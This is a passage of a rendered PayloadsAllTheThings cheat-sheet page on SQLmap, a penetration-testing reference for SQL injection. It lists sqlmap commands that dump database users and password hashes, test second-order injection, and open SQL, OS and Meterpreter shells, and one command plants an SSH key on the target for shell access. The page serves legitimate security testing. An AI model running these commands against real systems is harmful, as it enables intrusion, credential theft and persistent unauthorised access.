

repository: MnifR/PayloadsAllTheThings · page: SQL Injection/SQLmap/index.html · generator: mkdocs

# SQLmap

> SQLmap is a powerful tool that automates the detection and exploitation of SQL injection vulnerabilities, saving time and effort compared to manual testing. It supports a wide range of databases and injection techniques, making it versatile and effective in various scenarios.
> Additionally, SQLmap can retrieve data, manipulate databases, and even execute commands, providing a robust set of features for penetration testers and security analysts.
> Reinventing the wheel isn't ideal because SQLmap has been rigorously developed, tested, and improved by experts. Using a reliable, community-supported tool means you benefit from established best practices and avoid the high risk of missing vulnerabilities or introducing errors in custom code.
> However you should always know how SQLmap is working, and be able to replicate it manually if necessary.

## Summary

* [Basic Arguments For SQLmap](#basic-arguments-for-sqlmap)
* [Load A Request File](#load-a-request-file)
* [Custom Injection Point](#custom-injection-point)
* [Second Order Injection](#second-order-injection)
* [Getting A Shell](#getting-a-shell)
* [Crawl And Auto-Exploit](#crawl-and-auto-exploit)
* [Proxy Configuration For SQLmap](#proxy-configuration-for-sqlmap)
* [Injection Tampering](#injection-tampering)
    * [Suffix And Prefix](#suffix-and-prefix)
    * [Default Tamper Scripts](#default-tamper-scripts)
    * [Custom Tamper Scripts](#custom-tamper-scripts)
    * [Custom SQL Payload](#custom-sql-payload)
    * [Evaluate Python Code](#evaluate-python-code)
    * [Preprocess And Postprocess Scripts](#preprocess-and-postprocess-scripts)
* [Reduce Requests Number](#reduce-requests-number)
* [SQLmap Without SQL Injection](#sqlmap-without-sql-injection)
* [References](#references)

## Basic Arguments For SQLmap

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

## Load A Request File

A request file in SQLmap is a saved HTTP request that SQLmap reads and uses to perform SQL injection testing. This file allows you to provide a complete and custom HTTP request, which SQLmap can use to target more complex applications.

```powershell
sqlmap -r request.txt
```

## Custom Injection Point

A custom injection point in SQLmap allows you to specify exactly where and how SQLmap should attempt to inject payloads into a request. This is useful when dealing with more complex or non-standard injection scenarios that SQLmap may not detect automatically.

By defining a custom injection point with the wildcard character '`*`' , you have finer control over the testing process, ensuring SQLmap targets specific parts of the request you suspect to be vulnerable.

```powershell
sqlmap -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
```

## Second Order Injection

A second-order SQL injection occurs when malicious SQL code injected into an application is not executed immediately but is instead stored in the database and later used in another SQL query.

```powershell
sqlmap -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

## Getting A Shell

* SQL Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --sql-shell
    ```

* OS Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --os-shell
    ```

* Meterpreter:

    ```ps1
    sqlmap -u "http://example.com/?id=1"  -p id --os-pwn
    ```

* SSH Shell:

    ```ps1
    sqlmap -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
    ```
